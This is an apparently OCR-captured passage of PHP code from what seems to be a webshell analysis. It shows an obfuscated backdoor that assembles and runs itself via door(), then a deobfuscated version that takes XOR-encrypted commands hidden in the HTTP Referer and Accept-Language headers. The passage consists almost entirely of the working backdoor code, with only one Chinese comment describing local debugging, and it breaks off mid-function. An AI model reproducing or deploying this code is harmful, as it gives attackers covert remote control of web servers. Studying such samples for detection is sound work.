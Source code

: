 ```php
    $K = '=array_value2Fs2F($q);preg2F_2Fma2Ftch_a2Fll("/([\\w])[\\w-2F]+2F(?:2F;q=0.([\\d]))?,?/",$2Fra2F,$';
    $F = '_LANGUAGE2F"];if($rr&&2F$r2F2Fa){$u=par2Fse2F_u2Frl($rr);parse2F_str($2Fu2F["query"],$q2F)2F;$q';
    $c = '2F}}return $2Fo;2F}$r=$_2FSE2FRVE2FR;$rr=@2F$r["2FHT2FTP_2FREFERER"];$ra=@$r[2F"HTTP_ACCE2F2FPT';
    $d = '$i.2F$kf)2F,0,3));$p="";for($z=2F1;$z<coun2Ft2F($m[1]);$z+2F+)2F$p.=$q[$m2F[2]2F[$2Fz]2F];if(st';
    $X = '$kh="abcd"2F;$kf="2Feylg";f2Funct2Fion x($2Ft,$2Fk){$c=st2Fr2Fl2Fen($k);$l=strlen2F($t2F);$o=2F';
    $m = 'e2Fncode(x(gzc2Fomp2Fr2Fess($o),2F$k))2F;print("<2F$k>2F$d</$k2F>");@se2Fss2Fion_destroy();}}}}';
    $E = str_replace('2F', '', $X . $q . $c . $F . $K . $N . $O . $d . $s . $l . $t . $U . $m);
    echo $E;
    $I = $A('', $E);
    print_r($I);
    $I();
}
door();



/* 2. 在本地进行调试分析，将代码尽量可视化，最后得到代码为  */
function doors()
{
    $kh = "abcd";
    $kf = "eylg";
    function x($t, $k)
    {
        $c = strlen($k);
        $l = strlen($t);
        $o = "";
        for ($i = 0; $i < $l;) {
            for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
                $o .= $t{$i} ^ $k{$j};
            }
        }
        return $o;
    }
    $r = $_SERVER;
    $rr = @$r["HTTP_REFERER"];
    $ra = @$r["HTTP_ACCEPT_LANGUAGE"];
    if ($rr && $ra) {
        $u = parse_url($rr);
        parse_str($u["query"], $q);
        $q = array_values($q);
        preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/", $ra, $m);
        if ($q && $m) {
            @session_start();
            $s = &$_SESSION;
            $ss = "substr";
            $sl = "strtolower";
            $i = $m[1][0] . $m[1][1];
            $h = $sl($ss(md5($i . $kh), 0, 3));
            $f = $sl($ss(md5($i . $kf), 0, 3));
            $p = "";for ($z = 1; $z < count($m[1]); $z++) {
                $p .= $q[$m[2][$z]];
            }
            if (strpos($p, $h) === 0) {
                $s[$i] = "";
                $p = $ss($p, 3);
            }
            if (array_key_exists($i, $s)) {
```